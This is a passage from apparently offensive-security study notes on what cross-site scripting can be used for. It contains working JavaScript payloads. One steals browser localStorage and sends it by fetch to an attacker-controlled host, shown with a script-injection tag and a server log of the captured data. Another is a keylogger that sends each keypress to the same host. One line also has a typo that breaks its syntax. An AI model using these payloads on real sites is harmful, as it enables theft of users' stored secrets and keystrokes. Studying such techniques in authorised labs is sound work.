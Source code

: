 ## Stealing Local Secrets

Browsers have two types of storage available: [`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) and [`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage).

<table><thead><tr><th width="195">Type</th><th width="309">Description</th><th>Accessed by</th></tr></thead><tbody><tr><td><code>sessionStorage</code></td><td>Stores the data until the tab is closed</td><td><code>window.sessionStorage</code></td></tr><tr><td><code>localStorage</code></td><td>Stores the data until explicitly deleted</td><td><code>window.localStorage</code></td></tr></tbody></table>

To exfiltrate `localStorage`, we will convert the object into a string, URL-encode it, and use `fetch` to exfil the data.

{% code title="xssLocalStorage.js" %}
```javascript
let data = JSON.stringify(localStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endcode %}

```javascript
// injected payload
<script src="http://192.168.45.214/xssLocalStorage.js"></script>
```

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.45.214 - - [05/Aug/2024 16:54:47] "GET /xssLocalStorage.js HTTP/1.1" 200 -
192.168.45.214 - - [05/Aug/2024 16:54:47] code 404, message File not found
192.168.45.214 - - [05/Aug/2024 16:54:47] "GET /exfil?data=%7B%22BROWSER_OPT_KEY%22%3A%22%7B%5C%22httpOnlyCookie%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20HttpOnly%20Cookie%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22nonHttpOnlyCookie%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20Non-HttpOnly%20Cookie%5C%22%2C%5C%22value%5C%22%3Atrue%7D%2C%5C%22phishing%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Blindly%20enter%20credentials%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22savedPasswords%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Use%20stored%20password%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22keyStrokes%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Simulate%20keystrokes%5C%22%2C%5C%22value%5C%22%3Afalse%7D%2C%5C%22localStorage%5C%22%3A%7B%5C%22title%5C%22%3A%5C%22Data%20in%20Local%20Storage%5C%22%2C%5C%22value%5C%22%3Afalse%7D%7D%22%7D HTTP/1.1" 404 -
```
{% endcode %}

## Keylogging

Keylogging is useful when our target is the user rather than the application, but it is limited in the sense that only the current user tab is logged. The JavaScript event for keypresses is `keydown`, which need to be passed into the `addEventListener` function which also accepts a callback function to run for each keydown event.

{% code title="xssKeylogger.js" %}
```javascript
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key)
}

// for each keypress, execute the callback function
document.addEventListener('keydown', logKey);
```
{% endcode %}
